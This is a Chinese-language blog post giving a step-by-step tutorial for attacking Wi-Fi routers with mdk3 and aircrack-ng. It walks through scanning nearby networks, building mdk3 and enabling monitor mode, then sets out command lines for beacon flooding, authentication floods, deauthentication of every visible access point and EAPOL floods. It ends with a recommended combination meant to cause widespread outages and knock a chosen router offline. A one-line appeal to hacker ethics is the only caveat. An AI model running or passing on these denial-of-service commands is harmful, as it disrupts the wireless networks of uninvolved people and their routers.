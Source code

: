 ```yaml
---
layout: post
title:  "使用mdk3+aircrack-ng攻击路由器"
date:   2016-08-28 11:47
categories: jekyll update
---
```

>mdk3是一款Linux下的终端网络攻击工具，需要配合强大的aircrack -ng使用  

[mdk3-Github](https://github.com/charlesxsh/mdk3-master)  
[mdk3-Github|LEXUGE's fork](https://github.com/LEXUGE/mdk3-master)  
[aircrack -ng](http://www.aircrack-ng.org/index.html)  

现在mdk3的官网已经关闭了，在Github上还有mdk3 v6的原版改进版，为防止项目被删除，我也fork了一份，供大家备用下载。  
mdk3的攻击过程中是不需要网络连接的，也就是在无网络的状态下攻击，希望大家不要恶意攻击他人，保持好自己的黑客道德。  
教程在Fedora Linux下通过测试  

1. ```iwconfig```  
使用该命令来检查是哪一个接口来支持无线连接的，如我的就是wlp2s0  

2. ```iw dev wlp2s0 scan```  
用这个命令来扫描周围的Wi-Fi信息，SSID为路由器的名称，BSS为路由器的MAC地址**（注意，截至目前，我们不需要安装任何软件）**  

3. ```dnf install aircrack-ng.x86_64```  
现在我们来安装mdk3和aircrack-ng(aircrack-ng可能名称会发生变动，具体请使用```$ dnf search aircrack-ng```搜索软件包)  

4. 
```
cd /mdk3-master
make
sudo make install
```
下载完mdk3并解压完毕后，即可进行编译安装，在```make```时会有gcc的编译警告，忽略即可，不必担心  

5.
```
cd /usr/local/sbin
./mdk3
```
- 如果正确安装就可以看到mdk3输出的帮助  

- 安装过程到此就完毕了  

现在，我们来介绍如何攻击  
```
su
airmon-ng start {你的接口，在第一步中可以找到}
cd /usr/local/sbin
```
第二条命令时，系统会自动关闭冲突进程，在最后会有监听端口，**注意，接下来的mon0就使用监听端口代替**  

第一种模式：  
beacon flood mode：  
     这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。  
详细命令如下：  
```
./mdk3 mon0 b 

      -n <ssid>        #自定义ESSID
      -f <filename>            #读取ESSID列表文件
      -v <filename>           #自定义ESSID和BSSID对应列表文件
      -d         #自定义为Ad-Hoc模式
      -w         #自定义为wep模式
      -g           #54Mbit模式
      -t            # WPA TKIP encryption
      -a           #WPA AES encryption
      -m          #读取数据库的mac地址
       -c <chan>                   #自定义信道
       -s <pps>                #发包速率
```

第二种模式：  
Authentication DoS：  
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在reaver穷据路由PIN码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由！  
```
./mdk3 mon0 a
      -a <ap_mac>              #测试指定BSS
      -m              #使用有效数据库中的客户端mac地址
      -c          #对应 -a ，不检查是否测试成功
      -i  <ap_mac>           #对指定BSS进行智能攻击
      -s <pps>               #速率，默认50
```

第三种模式：  
Deauthentication/Disassociation Amok：  
强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击......可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击！  
```
mdk3 mon0 d
      -w <filename>             #白名单mac地址列表文件
      -b <filename>              #黑名单mac地址列表文件
      -s <pps>                        #速率，这个模式下默认无限制
      -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
```

第四种模式：  
802.1X test:
```
mdk3 mon0 x  
      0 - EAPOL Start packet flooding   #EAPOL格式的报文洪水攻击

            -n <ssid>               
            -t <bssid>        #目标客户端的mac地址               

            -w <WPA type>
               Set WPA type (1: WPA, 2: WPA2/RSN; default: WPA)
            -u <unicast cipher>
               Set unicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -m <multicast cipher>
               Set multicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -s <pps>      #速率，默认400               
      1 - EAPOL Logoff test       #注销认证攻击
            -t <bssid>        #目标客户端的mac地址             
            -c <bssid>         #目标ap的合法客户端mac               
            -s <pps>         #速率，默认400               
```

最后，建议这样攻击：  
第一种和第三种同时使用会造成大面积间歇性断网，第二种可以配合第四种进行攻击，会导致路由器死亡  
分别是  
```
./mdk3 mon0 b
./mdk3 mon0 d -s 120
./mdk3 mon0 a -a {你要攻击的路由器MAC(BSS)}
./mdk3 mon0 x 1 -c {客户端MAC(虚拟)} -t {路由器MAC(BSS)}
```

祝你成功！
